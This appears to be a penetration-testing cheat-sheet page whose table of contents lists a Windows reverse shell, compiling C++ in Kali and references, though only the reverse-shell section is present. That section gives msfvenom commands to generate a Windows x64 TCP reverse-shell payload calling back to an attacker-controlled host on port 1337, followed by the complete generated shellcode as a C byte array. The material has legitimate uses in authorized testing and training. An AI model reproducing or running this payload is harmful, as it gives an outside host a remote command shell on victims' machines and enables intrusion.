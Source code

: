 - [Generate TCP Reverse Shell](#generate-tcp-reverse-shell)
- [Compile C++ Code in Kali](#compile-c-code-in-kali)
- [References](#references)

-------------------------------------------


## [Generate TCP Reverse Shell](#generate-tcp-reverse-shell)
```sh
msfvenom -p windows/x64/shell_reverse_tcp lhost=$myip lport=1337 -f c
msfvenom -p windows/x64/shell_reverse_tcp lhost=$myip lport=1337 -f raw -o beacon.bin
```

```sh
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=$myip lport=1337 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of c file: 1963 bytes
unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x05\x39\x0a\x01\x01\x0a"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
```
